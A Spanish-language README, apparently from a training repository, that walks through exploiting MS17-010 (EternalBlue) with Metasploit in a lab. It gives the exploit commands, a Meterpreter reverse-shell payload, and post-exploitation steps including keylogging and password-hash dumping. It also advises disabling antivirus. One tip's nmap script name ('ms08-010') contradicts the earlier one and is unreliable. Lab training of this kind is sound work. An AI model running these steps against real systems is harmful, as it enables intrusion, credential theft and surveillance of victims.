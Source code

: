 # 🛡️ **Guía para Explotar MS17-010 con Metasploit**
_______________________________________
## ⚠️ Aviso Legal / Disclaimer
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
_______________________________________
Esta guía explica paso a paso cómo explotar la vulnerabilidad MS17-010 (EternalBlue) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
_______________________________________

# 🛡️ **¿Qué es MS17-010 (EternalBlue)?**

- Vulnerabilidad crítica en el protocolo SMBv1 de Windows.
-	Permite ejecución remota de código sin autenticación.
-	Afecta Windows XP, 7, 8, Server 2003, 2008, 2012 (si no está parchado).
-	Fue utilizada por el ransomware WannaCry y NotPetya.
_______________________________________
## 🧰 Requisitos del entorno de pruebas
-	💻 [Kali Linux (máquina atacante)](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina vulnerable: Windows 7 SP1 o Windows Server 2008 sin el parche MS17-010.](https://drive.google.com/file/d/11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_/view)
-	🌐 Ambas máquinas deben estar en la misma red local o virtual interna.
________________________________________
## 🧪 Paso a paso para explotar MS17-010 con Metasploit
________________________________________
**🔹 1. Verifica conectividad y vulnerabilidad**
Desde Kali:
<pre> ping [IP_de_la_víctima] </pre>
Opcional (para verificar si es vulnerable):
<pre> nmap -p 445 --script smb-vuln-ms17-010 [IP_víctima] </pre>
Si dice VULNERABLE, puedes continuar.
________________________________________
**🔹 2. Iniciar Metasploit**
<pre> msfconsole </pre>

**🔹 3. Buscar el exploit**
<pre>search eternalblue</pre>
Deberías ver:
<pre> exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 4. Seleccionar el exploit**
<pre> use exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 5. Ver las opciones requeridas**
<pre> show options </pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar los parámetros**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/x64/meterpreter/reverse_tcp </pre>

También puedes usar  ```bash windows/meterpreter/reverse_tcp  ``` si la víctima es de 32 bits.
________________________________________
**🔹 7. Verificar configuración**
<pre> show options </pre>
________________________________________
**🔹 8. Ejecutar el exploit**
<pre> exploit </pre>
________________________________________
## ✅ **Resultado esperado**
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage ...
[*] Meterpreter session 1 opened
```
¡Ahora tienes acceso remoto a la máquina!
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
**Comandos útiles:**
- **sysinfo:**	Información del sistema
- **getuid:**	Usuario actual
- **shell:**	Abre CMD de la víctima
- **screenshot:**	Captura pantalla
- **download archivo:**	Descargar archivos
- **keyscan_start:**	Inicia keylogger
- **hashdump:**	Extraer hashes de contraseñas
________________________________________
## 🔒 Precauciones
-	No usar este exploit en redes reales o con máquinas no autorizadas.
-	EternalBlue afecta SMBv1, un protocolo antiguo y obsoleto.
________________________________________
## ❌ **Consejos adicionales**

- Para verificar si el Windows 7 es vulnerable: ```bash nmap -p 445 --script smb-vuln-ms08-010 [IP_víctima] ```
- Si el Exploit dice "No session created"	Verifica que la víctima sea vulnerable (sin parche KB4012212 o similar)
- LHOST mal configurado	Usa la IP correcta de tu Kali, no 127.0.0.1 ni una IP de otra red
- Antivirus bloquea el payload	Desactívalo (solo en laboratorio)
- Máquina víctima no usa SMBv1	Actívalo o usa una VM XP/7 sin actualizar
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS17-010](https://www.exploit-db.com/exploits/42315)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/)
-	[Hack The Box](https://www.hackthebox.com/machines/blue)
- [TryHackMe](https://tryhackme.com/room/blue)

________________________________________
## 🧑‍🏫 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.

________________________________________

## 📄 Licencia

Este material se distribuye bajo la licencia [MIT](LICENSE).

________________________________________

> Si te resulta útil, ¡no olvides darle ⭐ al repo o compartirlo!
